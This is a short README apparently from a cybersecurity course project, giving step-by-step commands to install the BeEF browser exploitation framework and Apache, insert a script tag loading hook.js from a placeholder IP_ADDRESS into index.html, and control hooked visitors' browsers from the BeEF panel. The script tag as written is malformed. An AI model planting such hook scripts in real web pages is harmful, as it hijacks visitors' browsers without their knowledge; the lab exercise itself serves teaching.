# KGM-Cyber-Project1
Cybersecurity course first project in KGM

###Install beef-xss using apt
* sudo apt update
* sudo apt install beef-xss

###Install apache2
* sudo apt install apache2

###Add script to index.html
* cd /var/www/html
* vim index.html
* within the body tag, insert <script>src="http://IP_ADDRESS/hook.js"</script>

###Start beEF and run apache
* beef-xss
    * this will ask to set beEF password

* systemctl enable apache2
* systemctl start apache2
* systemctl status apache2

* Go to IP_ADDRESS/ui/panel and login with beef as username and password as set during beef installation
* Online hooks should be enabled. Click on IP_ADDRESS and perform actions
